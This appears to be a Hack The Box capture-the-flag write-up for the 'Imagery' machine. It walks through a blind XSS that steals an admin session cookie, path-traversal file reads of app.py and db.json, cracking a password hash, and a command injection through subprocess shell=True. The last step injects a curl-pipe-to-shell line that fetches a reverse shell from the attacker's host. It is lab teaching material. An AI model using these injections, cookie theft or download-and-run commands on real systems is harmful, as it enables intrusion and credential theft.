## TL;DR

We use blind XSS Injection to steal admin session cookie, and then exploiting LFI to achieve source code. From there we crack the password of `testuser`, and find `RCE` in `api_edit`, which let us gain a shell on `web` user.
We find backup aes encrypted zip, we crack it and find the hash of `mark`'s password, which we crack. Then we exploit `/usr/local/bin/charcol` to achieve PE and get root shell.

### Recon

we start with `nmap`, using this command, i was needed to add `-Pn`, because otherwise `nmap` thinks the host is down:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```

However, the number of open ports is very delusive, so i tried several times and that's what i got:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ nmap 10.10.11.88 -Pn 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 00:57 IST
Nmap scan report for 10.10.11.88
Host is up (1.6s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

I can verify that there is `ssh` on port `22`, and also some http serve on port `8000`.

After more enhance scan on port `8000`:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ nmap -p8000 -sVC --min-rate=10000 $target -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 01:03 IST
Nmap scan report for imagery.htb (10.10.11.88)
Host is up (0.57s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

So, we'll add `imagery.htb` to `/etc/hosts`.
```bash
10.10.11.88     imagery.htb
```

### Using blind XSS to achieve admin session cookie

So, we'll start with dir enumeration and vhost enumeration.

we can find several endpoints, we can't find any virtual host.
```bash
┌──(agonen㉿kali)-[~/htb/Imagery]
└─$ gobuster dir -u http://imagery.htb:8000/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://imagery.htb:8000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 401) [Size: 59]
/login                (Status: 405) [Size: 153]
/register             (Status: 405) [Size: 153]
/logout               (Status: 405) [Size: 153]
```

When navigating mannually on the website, we can find the button "report bug"



This leads us to the report bug form, this report will go directly to the admin.


We can try to achieve blind `XSS Injection` and then retrieve the admin session cookie, this will be our payload;
```json
{
    "bugName":"My bug",
    "bugDetails":""
}
```

 

And after setting up our http.server on python3, on port `8081`, we get the session cookie:
```bash
┌──(agonen㉿kali)-[~/htb/Conversor]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.88 - - [28/Oct/2025 16:21:13] "GET /?cookie=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aQDRVA.hLDAR1zV7LoadDNU-mRSxRBIteo HTTP/1.1" 200 -
```

So, let's login now with this cookie: 
```bash
.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aQDRVA.hLDAR1zV7LoadDNU-mRSxRBIteo
```
Here we can see how to change the cookie in firefox browser.



### Exploiting LFI to achieve files and crack testuser password

After logging as admin, we can see the buttom "Admin Panel", there we can see all users:



There are 2 interesting users:
```json
{
  "displayId": "a1b2c3d4",
  "isAdmin": true,
  "isTestuser": false,
  "username": "admin@imagery.htb"
},
{
  "displayId": "e5f6g7h8",
  "isAdmin": false,
  "isTestuser": true,
  "username": "testuser@imagery.htb"
}
```

Then, we can see "download log", which gives us vector for `LFI`, because it looks like: `/admin/get_system_log?log_identifier=<filename>`.

For example, we can get `/etc/passwd`:



We can detect here two interesting users:
```bash
web:x:1001:1001::/home/web:/bin/bash
mark:x:1002:1002::/home/mark:/bin/bash
```

Next, i tried to get `/etc/shadow`, I got this error message:
```bash
Error reading file: [Errno 13] Permission denied: '/home/web/web/system_logs/../../../../../../../../../../../etc/shadow'
```

That's very interesting, because it reveals the location, which is `/home/web/web/system_logs`.
We can now attempt to achieve `app.py`
```bash
../../../../../../../../home/web/web/app.py
```


```py
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)
```

And also `config.py`:
```bash
../../../../../../../../home/web/web/config.py
```



```py
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'

os.makedirs(UPLOAD_FOLDER, exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'converted'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'transformed'), exist_ok=True)
os.makedirs(SYSTEM_LOG_FOLDER, exist_ok=True)

MAX_LOGIN_ATTEMPTS = 10
ACCOUNT_LOCKOUT_DURATION_MINS = 1

ALLOWED_MEDIA_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff', 'pdf'}
ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff'}
ALLOWED_UPLOAD_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff',
    'application/pdf'
}
ALLOWED_TRANSFORM_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff'
}
MAX_FILE_SIZE_MB = 1
MAX_FILE_SIZE_BYTES = MAX_FILE_SIZE_MB * 1024 * 1024

BYPASS_LOCKOUT_HEADER = 'X-Bypass-Lockout'
BYPASS_LOCKOUT_VALUE = os.getenv('CRON_BYPASS_TOKEN', 'default-secret-token-for-dev')

FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
BLOCKED_APP_PORTS = {8080, 8443, 3000, 5000, 8888, 53}
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
PRIVATE_IP_RANGES = [
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('172.0.0.0/12'),
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16')
]
AWS_METADATA_IP = ipaddress.ip_address('169.254.169.254')
IMAGEMAGICK_CONVERT_PATH = '/usr/bin/convert'
EXIFTOOL_PATH = '/usr/bin/exiftool'
```

We can see from `config.py` this line:
```py
DATA_STORE_PATH = 'db.json'
```

Let's get `db.json`:
```bash
../../../../../../../../home/web/web/db.json
```



```json
"users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ]
```

using [https://crackstation.net/](https://crackstation.net/) we managed to crack the hash of `testuser`:
```bash
2c65c8d7bfbca32a3ed42596192384f6:iambatman
```



### Exploit vulnerability in api_edit and achieve RCE

inside `app.py` we can see this imports. Most of them are from local files, so let's get the files and analyze them.
```py
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc
```

We can get the files using BurpSuite Intruder:



After searching, i found inside `api_edit`, this:
```py
from flask import Blueprint, request, jsonify, session
from config import *
import os
import uuid
import subprocess
from datetime import datetime
from utils import _load_data, _save_data, _hash_password, _log_event, _generate_display_id, _sanitize_input, get_file_mimetype, _calculate_file_md5

bp_edit = Blueprint('bp_edit', __name__)

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    transform_type = request_payload.get('transformType')
    params = request_payload.get('params', {})
    if not image_id or not transform_type:
        return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    if original_image.get('actual_mimetype') not in ALLOWED_TRANSFORM_MIME_TYPES:
        return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400
    original_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if original_ext not in ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM:
        return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400
    try:
        unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}"
        output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)

    <REDACTED>
```

As we can see, it uses the function `subprocess.run` with `shell=True`, which as shown here [https://stackoverflow.com/questions/3172470/actual-meaning-of-shell-true-in-subprocess](https://stackoverflow.com/questions/3172470/actual-meaning-of-shell-true-in-subprocess) can lead to `RCE`.
In this case, we can control the command, and achieve `RCE`.
```py
if transform_type == 'crop':
    x = str(params.get('x'))
    y = str(params.get('y'))
    width = str(params.get('width'))
    height = str(params.get('height'))
    command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
    subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

So, first we need to login as `testuser`, and crop the image. We'll later capture the request in BurpSuite and play with it on the Repeater tab.





we uses [https://www.revshells.com/](https://www.revshells.com/) for our reverse shell, we insert it into the file `rev_shell.sh` and then upload it and execute it on victim machine:

First, set the python server on the local machine:
```bash
python3 -m http.server 8081
```


Then, we send this payload, notice you need to supply valid imageId, just upload dummy image and take its id:
```json
{
  "imageId": "1c7d6e7b-fead-4be9-bee9-d811a88cedc3",
  "transformType": "crop",
  "params": {
    "x": 1,
    "y": 1,
    "width": ";curl http://10.10.16.44:8081/rev_shell.sh | sh;",
    "height": 1080
  }
}
```

